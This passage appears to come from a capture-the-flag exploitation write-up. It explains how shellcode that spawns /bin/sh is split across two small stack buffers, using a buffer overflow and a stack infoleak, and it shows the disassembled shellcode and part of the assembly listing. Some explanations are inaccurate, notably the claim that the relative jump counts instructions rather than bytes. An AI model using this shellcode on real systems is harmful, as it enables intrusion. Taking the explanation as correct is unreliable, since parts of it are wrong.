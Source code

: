 So with that, we have an executable stack, a buffer overflow that grants us control of the return address, and a stack infoleak (which we can use to figure out the address of anything within that memory region, by usign it's offset). The easy thing to do would be to just push shellcode to the stack, and call it. However the issue here it we don't have a single continuous block of memory to store it in. The biggest one we have is the `0x20` bytes from the `goodbye` call, however that one has to have an `0x8` byte address `11` bytes in to write over the return address, leaving us with onlu `21` bytes to work with across two separate blocks. What we will need to do here, is write/modify some custom shellcode to specifically fit in the multiple discontinuous chunks we have. I just managed to split my shellcode into two different `0xf` (`15`) byte blocks, and stored them in `inp0` and `inp1`, and just called  `inp1`. We already know from what we previously did that the offset from the infoleak we got to our second input is `+0x8` bytes. 

For writing the custom shellcode, we will be splitting up the shellcode into these two blocks. I did not write this shell code originally, I only modified it to fit this one particular use case (I just threw in a `jmp` instruction). The shellcode came from here: `https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/`

block 0:
```
  400080:	48 bf d1 9d 96 91 d0 	movabs rdi,0xff978cd091969dd1
  400087:	8c 97 ff 
  40008a:	e9 0c 00 00 00       	jmp    40009b <_start+0x1b>
```

This block just executes two different instructions.  The first just moves the hex string `0xff978cd091969dd1` (which is just the string `/bin/sh\x00` noted) into the `rdi` register, and then calls the relative jump function. This will just jump `x` amount of instructions, where `x` is it's argument (which in this case it's `0xc`, which is `12`). To figure out how many instructions to jump, I examined the amount of instructions interpreted (since most data can be interpreted as an instruction, and by our `jmp` call will) to see how many instructions I would need to jump ahead, and a bit of trial and error untill I got it right. Remember the relative jump opcode (`0xe9`) works off of the number instructions (which varry in bytes), not bytes.

block1:
```
  4000a8:	31 f6                	xor    esi,esi
  4000aa:	f7 e6                	mul    esi
  4000ac:	04 3b                	add    al,0x3b
  4000ae:	48 f7 df             	neg    rdi
  4000b1:	57                   	push   rdi
  4000b2:	54                   	push   rsp
  4000b3:	5f                   	pop    rdi
  4000b4:	0f 05                	syscall 
```

Here is the rest of the shellcode. It essentially just sets for the `syscall` which will give us a shell, then makes the `syscall`.

Here is a look at the shellcode precompiled. The `NOP`s represent the space between the two segments,

```
$	cat shellcode.c 
;exit.asm
[SECTION .text]
global _start
_start:
	mov rdi, 0xff978cd091969dd1
	jmp 0x10
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
```